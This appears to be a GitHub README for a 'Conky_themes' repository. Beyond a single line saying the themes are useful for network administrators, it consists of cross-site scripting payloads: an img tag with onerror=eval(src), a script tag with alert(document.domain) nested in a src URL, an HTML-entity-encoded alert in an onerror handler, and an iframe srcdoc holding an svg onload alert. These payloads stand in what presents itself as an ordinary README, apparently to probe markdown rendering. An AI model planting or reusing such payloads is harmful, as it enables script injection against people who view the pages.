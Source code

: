 <img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<p><script type="text/javascript"" src="https://github.com/Gra8-Git/Conky_themes/blob/master/README.md/<script>alert(document.domain);   </script>"</p>"
<img src="#<script>alert(1);</script>" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src=""/srcdoc='&lt;svg onload&equals;alert&lpar;1&rpar;&gt;'>
